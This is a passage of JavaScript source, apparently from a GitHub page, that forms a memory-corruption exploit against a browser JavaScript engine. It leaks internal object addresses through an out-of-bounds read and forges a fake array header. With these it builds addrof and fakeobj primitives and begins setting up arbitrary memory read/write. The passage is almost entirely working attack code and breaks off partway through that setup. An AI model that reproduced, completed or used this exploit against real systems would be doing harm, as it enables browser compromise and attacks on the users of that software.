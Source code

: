 ```javascript
	}
	return 0;
}

function install_primitives() {
	for (let i = 0; i < 2000; i++) {
		weak_fake_obj(false, 1.1);
	}
	for (let i = 0; i < 2000; i++) {
		weak_fake_obj(true, 1.1);
	}

	for (let i = 0; i < 11000; i++) {
		leak_stuff(false);
	}
	for (let i = 0; i < 11000; i++) {
		leak_stuff(true);
	}

	let leaks = leak_stuff(true);

	let packed_double_map_and_props = ftoi(leaks[0]);
	packed_dbl_map = packed_double_map_and_props & 0xFFFFFFFFn;
	packed_dbl_props = packed_double_map_and_props >> 32n;
	
	fixed_dbl_map = ftoi(leaks[1]) & 0xFFFFFFFFn;
	
	elem_addr = ftoi(leaks[2]) & 0xFFFFFFFFn;
	
	// Create fake array header in arr2
	before_arr = leaks[4];
	before_arr[1] = itof(packed_dbl_map | (packed_dbl_props << 32n));
	before_arr[2] = itof(elem_addr + 32n | (smi(4n) << 32n));
	before_arr[3] = itof(fixed_dbl_map | (smi(4n) << 32n));
	
	after_arr = leaks[5];

	let temp_fake_arr_addr = elem_addr + 16n;
	let temp_fake_arr = weak_fake_obj(true, itof(temp_fake_arr_addr));
	fake_arr = temp_fake_arr[0];
}

// We begin with a simple OOB read. Let's escalate it to OOB read/write.
install_primitives();

// The overlapping arrays allows us to construct addrof and fakeobj primitives.
function addrof(obj) {
	after_arr[0] = obj;
	return ftoi(fake_arr[3]) & 0xFFFFFFFFn;
}

function fakeobj(addr) {
	fake_arr[3] = itof(addr);
	return after_arr[0];
}

// Now let's try to get arbitrary read/write (within a 2^40 byte region).
var aarw_arr = new Uint8Array(256);
var idx = (addrof(aarw_arr) - addrof(before_arr)) >> 3n; // Note: everything is misaligned by 4, so the map is fake_arr[idx] & 0xFFFFFFFF00000000n
before_arr[2] = itof(elem_addr + 32n | (smi(idx+7n) << 32n));
before_arr[3] = itof(fixed_dbl_map | (smi(idx+7n) << 32n));

```